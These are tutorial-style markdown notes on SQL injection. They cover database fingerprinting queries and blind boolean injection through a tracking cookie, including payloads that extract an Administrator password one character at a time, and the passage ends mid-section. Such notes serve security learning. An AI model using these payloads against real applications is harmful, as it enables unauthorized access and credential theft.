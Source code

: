 
---
>[!info] Examining the database
>
>>[!example] Database type & Version
>>- Microsoft, MySQL:`SELECT @@version`
>>- Oracle:`SELECT * FROM v$version`
>>- PostgreSQL:`SELECT version()`
>
>>[!example] The information schema
>>- To list the tables in the database:
>>```sql
>>SELECT * FROM information_schema.tables
>>```
>>- You can then query `information_schema.columns` to list the columns in individual tables:
>>```sql
>>SELECT * FROM information_schema.columns WHERE table_name = 'Users'
>>```
---
>[!danger] Blind SQL Injection
>
>>[!bug] Triggering conditional responses
>>- Consider an application that uses tracking cookies to gather analytics about usage:
>>```
>>Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
>>```
>>- When a request containing a `TrackingId` cookie is processed, the application uses a SQL query to determine whether this is a known user:
>>```sql
>>SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
>>```
>>- This is where the conditional responses come in to play:
>>```sql
>>…xyz' AND '1'='1
>>…xyz' AND '1'='2
>>```
>>- The first query will display a "Welcome" message, while the second query won't display anything.
>>- This allows us to determine the answer to any single injected condition, and extract data one piece at a time.
>>
>>>[!example]
>>>- Suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`.
>>>- You can determine the password for this user by sending a series of inputs to test the password one character at a time.
>>>```sql
>>>xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
>>>```
>>>- This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.
>>>- Next, we send the following input:
>>>```sql
>>>xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
>>>```
>>>- This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.
>>>- Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is `s`:
>>>```sql
>>>xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`
>>>```
>>>
>>>>[!info]